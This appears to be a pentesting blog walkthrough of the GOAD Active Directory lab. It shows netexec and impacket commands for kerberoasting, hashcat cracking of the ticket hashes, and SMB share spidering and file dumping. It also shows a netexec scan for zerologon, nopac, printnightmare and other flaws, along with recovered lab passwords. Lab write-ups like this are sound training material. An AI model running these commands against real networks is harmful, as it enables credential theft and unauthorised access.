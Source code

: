 ```yaml
---
title: "GOAD Part 2: Domain Enumeration "
author: "Trevor Saudi"
date: 2024-10-14
description: ""
draft: false
subtitle: ""
tags:
- Active Directory
- Pentesting
---
```


<style>



@import url('https://cdn.rawgit.com/lonekorean/gist-syntax-themes/d49b91b3/stylesheets/one-dark.css');

@import url('https://fonts.googleapis.com/css?family=Open+Sans');


   
  *, ::before, ::after {
    border-style: none;
    font: 16px;

  }

  body {
  margin: 20px;
  font: 16px 'Open Sans', sans-serif;
}

.center { 
       display:inline-block; 
       margin-left: 60px; 
       margin-top: -20px;
}

</style>



## Introduction

- In the previous walkthrough we exploited various misconfigurations and obtained some valid domain user credentials.
- With valid credentials, we can perform more enumeration using tools like bloodhound and also explore various attacks such as kerberoasting.
 We will explore kerberoasting and domain enumeration using bloodhound.....


### Kerberoasting in the north domain

 ![image](/posts/2024-10-10_red_team08/images/kerberoasting.png)

- With our valid credentials we can try and abuse kerberoasting to obtain more credential material that can grant further access to systems and data. 

- Kerberoasting involves attempting to crack passwords of service accounts by exploiting the Kerberos authentication protocol. 
- We obtain service tickets associated with these accounts and then perform offline password cracking.
- Using netexec:

```bash
nxc ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

 ![image](/posts/2024-10-10_red_team08/images/kerberoasting3.png)


- Using impacket:

```python
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
 ![image](/posts/2024-10-10_red_team08/images/kerberoasting2.png)

- We obtain 3 kerberoastable users: sansa.stark, jon.snow and sql_svc

#### Cracking with hashcat



- Running hashcat in the following mode with a rockyou password list:

 ![image](/posts/2024-10-10_red_team08/images/kerberoasting5.png)

- we get the plaintext credentials of the jon.snow user.

```python
hashcat -m 13100 -a 0 KERBEROASTING /usr/share/wordlists/rockyou.txt.gz
```
 ![image](/posts/2024-10-10_red_team08/images/kerberoasting4.png)


{{< alert "circle-info" >}}
jon.snow: iknownothing
{{< /alert >}}


### Spidering and Dumping Shares

 ![image](/posts/2024-10-10_red_team08/images/shares2.png)


- Check for shares and permissions on them

```python
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares

```

 ![image](/posts/2024-10-10_red_team08/images/shares.png)


- Dump all files from all the readable shares

```python
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M spider_plus -o DOWNLOAD_FLAG=TRUE
```

 ![image](/posts/2024-10-10_red_team08/images/spider.png)

- We have a couple of interesting dumped files 

 ![image](/posts/2024-10-10_red_team08/images/crt.png)

 - We discover credentials to jeor.mormont user.

 ![image](/posts/2024-10-10_red_team08/images/creds.png)


{{< alert "circle-info" >}}
jeor.mormont: \_L0ngCl@w\_

{{< /alert >}}


 ![image](/posts/2024-10-10_red_team08/images/jeor.png)


## Known Vulnerabilities

 ![image](/posts/2024-10-10_red_team08/images/known-vulns.png)


- Some of these vulnerabilities require credentials to enumerate so we will use a domain user's credentials with netexec, to check the various known vulnerabilities

```python
 nxc smb 192.168.56.10-23 -u 'jon.snow' -p 'iknownothing' -M zerologon -M nopac -M printnightmare -M smbghost -M ms17-010   
```
- We are able to identify printnightmare and nopac on winterfell:

 ![image](/posts/2024-10-10_red_team08/images/vulns.png)
